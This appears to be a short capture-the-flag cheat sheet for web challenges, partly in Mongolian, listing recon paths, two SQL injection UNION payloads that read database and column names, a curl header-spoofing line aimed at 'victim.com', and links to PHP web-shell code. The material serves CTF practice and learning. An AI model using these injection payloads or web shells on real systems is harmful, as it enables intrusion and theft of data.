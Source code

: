Scavenger Hunt
--------------

* `/robots.txt`
* `/.well-known`

JavaScript
--------------------

* `shell`
	
	node command line шеллийг ашиглаж болно.


SQLi
---------

* `UNION`
	
```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

Curl
---------

* `Playing with header`
	
	* `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
	
Web shells
--------------------

* `Shells`
	
	* [dict.txt](https://github.com/ByamB4/Capture-The-Flag-Tools/blob/master/Web/shells/list.txt)
	* [\*.php](https://github.com/ByamB4/Capture-The-Flag-Tools/tree/master/Web/shells/code)

